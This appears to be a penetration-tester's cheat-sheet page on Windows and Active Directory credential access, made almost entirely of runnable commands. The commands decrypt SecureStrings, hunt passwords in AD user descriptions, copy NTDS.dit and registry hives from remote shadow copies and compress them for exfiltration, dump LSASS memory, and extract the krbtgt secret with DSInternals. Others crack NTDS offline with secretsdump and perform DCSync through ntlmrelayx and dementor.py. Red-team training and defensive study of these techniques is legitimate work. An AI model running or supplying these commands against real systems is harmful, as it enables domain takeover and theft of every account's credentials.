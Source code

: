 # Credential Access



### SecureString to Plaintext

```powershell
$SecPass = "<SECURE PASS STRING>" | ConvertTo-SecureString; 
(New-Object System.Management.Automation.PSCredential "N/A", $SecPass).GetNetworkCredential().Password; 
```

### Passwords in Description

`ActiveDirectory` Module

```powershell
Get-ADUser -Filter 'Description -like "*password*"' -Properties Description | select name,Description
```

Using `PowerView.ps1`

GitHub: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

```powershell
Find-UserField -SearchField Description -SearchTerm "password"
```

### Volume Shadow Creation

Source: [https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework](https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework)

```powershell
# creating volume shadow copy
wmic /node:"[AD_IP_address]" /user:"[username]" /password:"[password]" process call create "cmd /c vssadmin create shadow /for=C: 2>&1"

# copying NTDS.dit, SYSTEM and SECURITY files from shadow copy
wmic /node:"[AD_IP_address]" /user:"[username]" /password:"[password]" process call create "cmd /c copy \\[shadow_copy_dir]\\Windows\\NTDS\\NTDS.dit [target_folder] & copy \\[shadow_copy_dir]\\Windows\\System32\\config\\SYSTEM [target_folder] & copy \\[shadow_copy_dir]\\Windows\\System32\\config\\SECURITY [target_folder]"

# compressing files for exfiltration
7za.exe a -mx3 nt.7z \\\\[AD_IP_address]\\c$\\[target_folder]
```



### Dumping LSASS with \`rundll32.exe\`

Same behaviour that would occur if you `Right-Clicked` the process in Task Manager and dumpe LSASS manually.

```powershell
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

### Memory Dump with `Get-StorageDiagnosticInfo`

Source: [https://x.com/0gtweet/status/1440255495797764108](https://x.com/0gtweet/status/1440255495797764108)

{% embed url="https://docs.microsoft.com/en-us/powershell/module/storage/get-storagediagnosticinfo?view=windowsserver2019-ps" %}

```powershell
$fname = Get-StorageSubSystem | Select -Property FriendlyName
Get-StorageDiagnosticInfo -StorageSubSystemFriendlyName $fname -IncludeLiveDump -DestinationPath C:\
```

### Dumping NTDS with `ntdsutil.exe`

```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```

### Extracting from NTDS, SYSTEM, SECURITY

You may have to modify the following registry key:

* `HKLM\\System\\CurrentControlSet\\Control\\Lsa\\FipsAlgorithmPolicy and set "Enabled" to 0`

{% code overflow="wrap" %}
```powershell
Install-Module DSInternals; Import-Module DSInternals;

$key = Get-BootKey -SystemHivePath '.\registry\SYSTEM';
Get-ADDBAccount -DistinguishedName 'CN=krbtgt,CN=Users,DC=burmat,DC=local' -DBPath '.\Active Directory\ntds.dit' -BootKey $key;
```
{% endcode %}

## SECRETSDUMP

### Extracting NTDS with `ntdsutil.exe`

```powershell
C:\> ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```

### Offline NTDS Cracking

```sh
secretsdump.py -ntds ./active directory/atds.dit -system SYSTEM LOCAL -output secrets_dump.ntds -user-status
```

Remove all of the garbage/disabled accounts:

```sh
grep -i "Enabled" secretsdump.ntds | awk -F":::" '{print $1":::"}'| grep -v '$:\\|$DUPLICATE\\|IWAM_\\|IUSR_\\|ASPNET\\|HelpAssistant\\|SUPPORT_\\|Guest\\|DefaultAccount\\|HealthMailbox' >> Enabled_Accounts.txt
```

### DCSync

```
ntlmrelayx.py -t DCSYNC://172.16.1.200 -smb2support -debug
python3 dementor.py -d burmat.local -u jsmith -p 'S3cur3PASS123$' 10.10.1.141 172.16.1.23 -debug
```




